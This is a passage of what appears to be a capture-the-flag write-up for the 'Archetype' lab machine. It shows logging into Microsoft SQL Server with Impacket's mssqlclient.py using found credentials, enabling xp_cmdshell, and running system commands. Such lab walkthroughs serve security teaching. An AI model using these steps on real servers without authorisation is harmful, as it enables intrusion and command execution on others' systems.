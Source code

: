 It looks like there is a password and username here!  We recall from Passage that we have Impacket's `mssqlclient.py` script, and we use it here:
```bash
$ git clone https://github.com/SecureAuthCorp/impacket; 

$ python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

Now we are logged in as user `ARCHETYPE\sql_svc`!

Let's have a look at the help commands:
```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

This is curious; particularly the `xp_cmdshell` ones...  We need a way to change this SQL shell into an RCE.  Searching `xp_cmdshell`, I found [this](https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/) on the web to help us do this!  Running
```sql
-- this turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

Here is the output:
```
SQL> sp_configure 'show advanced options', '1'
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> sp_configure 'xp_cmdshell', '1'
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL>
```